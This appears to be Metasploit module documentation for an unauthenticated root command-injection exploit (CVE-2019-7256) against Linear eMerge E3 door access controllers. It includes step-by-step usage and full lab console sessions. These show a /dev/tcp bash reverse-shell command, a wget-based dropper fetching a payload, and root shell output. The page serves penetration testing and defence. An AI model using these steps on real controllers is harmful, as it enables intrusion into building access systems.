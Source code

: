 ## Vulnerable Application

Nortek Security & Control, LLC (NSC) is a leader in wireless security, home automation and personal safety systems and devices.
The eMerge E3-Series is part of Linear’s access control platform, that delivers entry-level access control to buildings.
It is a web based application where the HTTP web interface is typically exposed to the public internet.

The Linear eMerge E3 versions `1.00-06` and below are vulnerable to unauthenticated command injection in card_scan_decoder.php
via the  `No` and `door` HTTP GET parameter. Successful exploitation results in command execution as the root user.

Building automation and access control systems are at the heart of many critical infrastructures, and their security is vital.
Executing attacks on these systems may enable unauthenticated attackers to access and manipulate doors, elevators, air-conditioning systems,
cameras, boilers, lights, safety alarm systems within a building.

This issue affects all Linear eMerge E3-Series with firmware versions up to and including `1.00-06`.

Installing a vulnerable test bed requires a Linear eMerge E3-Series access controller with the vulnerable software loaded.

This module has been tested against a Linear eMerge access controller with the specifications listed below:

* Nortek Linear eMerge E3 Elite access controller
* Firmware: `v1.00-03`

## Verification Steps

1. `use exploit/linux/http/linear_emerge_unauth_rce_cve_2019_7256`
1. `set RHOSTS <TARGET HOSTS>`
1. `set RPORT <port>`
1. `set LHOST <attacker host ip>`
1. `set LPORT <attacker host port>`
1. `set TARGET <0-Unix command or 1-Linux Dropper>`
1. `exploit`
1. You should get a `bash` shell or `meterpreter` session depending on the target and payload settings.

## Options
No specific options.

## Scenarios

### Nortek Linear eMerge E3 Elite access controller bash reverse shell

```
msf6 > use exploit/linux/http/linear_emerge_unauth_rce_cve_2019_7256
[*] Using configured payload cmd/unix/reverse_bash
msf6 exploit(linux/http/linear_emerge_unauth_rce_cve_2019_7256) > options

Module options (exploit/linux/http/linear_emerge_unauth_rce_cve_2019_7256):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                    yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT    80               yes       The target port (TCP)
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine
                                       or 0.0.0.0 to listen on all addresses.
   SRVPORT  8080             yes       The local port to listen on.
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                   no        The URI to use for this exploit (default is random)
   VHOST                     no        HTTP server virtual host


Payload options (cmd/unix/reverse_bash):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Unix Command


View the full module info with the info, or info -d command.

msf6 exploit(linux/http/linear_emerge_unauth_rce_cve_2019_7256) > set rhosts 192.168.100.180
rhosts => 192.168.100.180
msf6 exploit(linux/http/linear_emerge_unauth_rce_cve_2019_7256) > set lhost 192.168.100.7
lhost => 192.168.100.7
msf6 exploit(linux/http/linear_emerge_unauth_rce_cve_2019_7256) > set lport 4444
lport => 4444
msf6 exploit(linux/http/linear_emerge_unauth_rce_cve_2019_7256) > set target 0
target => 0
msf6 exploit(linux/http/linear_emerge_unauth_rce_cve_2019_7256) > exploit

[*] Started reverse TCP handler on 192.168.100.7:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 192.168.100.180:80 can be exploited.
[*] Performing command injection test issuing a sleep command of 2 seconds.
[*] Elapsed time: 3.16 seconds.
[+] The target is vulnerable. Successfully tested command injection.
[*] Executing Unix Command with bash -c '0<&179-;exec 179<>/dev/tcp/192.168.100.7/4444;sh <&179 >&179 2>&179'
[*] Command shell session 1 opened (127.0.0.1:4444 -> 127.0.0.1:54274) at 2022-12-01 18:51:54 +0000

uname -a
Linux cuckoo 3.14.54 #1 SMP PREEMPT Thu Dec 6 19:08:58 PST 2018 armv7l GNU/Linux
whoami
root
exit
```

### Nortek Linear eMerge E3 Elite access controller meterpreter session

```
msf6 > use exploit/linux/http/linear_emerge_unauth_rce_cve_2019_7256
[*] Using configured payload linux/armle/meterpreter_reverse_tcp
msf6 exploit(linux/http/linear_emerge_unauth_rce_cve_2019_7256) > options

Module options (exploit/linux/http/linear_emerge_unauth_rce_cve_2019_7256):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                    yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT    80               yes       The target port (TCP)
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine
                                       or 0.0.0.0 to listen on all addresses.
   SRVPORT  8080             yes       The local port to listen on.
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                   no        The URI to use for this exploit (default is random)
   VHOST                     no        HTTP server virtual host


Payload options (linux/armle/meterpreter_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Linux Dropper


View the full module info with the info, or info -d command.

msf6 exploit(linux/http/linear_emerge_unauth_rce_cve_2019_7256) > set rhosts 192.168.100.180
rhosts => 192.168.100.180
msf6 exploit(linux/http/linear_emerge_unauth_rce_cve_2019_7256) > set lhost 192.168.100.7
lhost => 192.168.100.7
msf6 exploit(linux/http/linear_emerge_unauth_rce_cve_2019_7256) > set lport 4444
lport => 4444
msf6 exploit(linux/http/linear_emerge_unauth_rce_cve_2019_7256) > set target 1
target => 1
msf6 exploit(linux/http/linear_emerge_unauth_rce_cve_2019_7256) > exploit

[*] Started reverse TCP handler on 192.168.100.7:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 192.168.100.180:80 can be exploited.
[*] Performing command injection test issuing a sleep command of 2 seconds.
[*] Elapsed time: 3.18 seconds.
[+] The target is vulnerable. Successfully tested command injection.
[*] Executing Linux Dropper
[*] Using URL: http://192.168.100.7:8080/n6tUft9RrS
[*] Client 127.0.0.1 (Wget) requested /n6tUft9RrS
[*] Sending payload to 127.0.0.1 (Wget)
[*] Meterpreter session 2 opened (127.0.0.1:4444 -> 127.0.0.1:49448) at 2022-12-01 18:50:26 +0000
[*] Command Stager progress - 100.00% done (125/125 bytes)
[*] Server stopped.

meterpreter > sysinfo
Computer     : 192.168.100.180
OS           :  (Linux 3.14.54)
Architecture : armv7l
BuildTuple   : armv5l-linux-musleabi
Meterpreter  : armle/linux
meterpreter > getuid
Server username: root
```

## Limitations
Due to the limitations of restricted `busybox` command implementation on the Linear eMerge E3 Access Controller, only a
few unix command payloads will work such as `cmd/unix/reverse_bash` or `cmd/unix/reverse` (telnet).

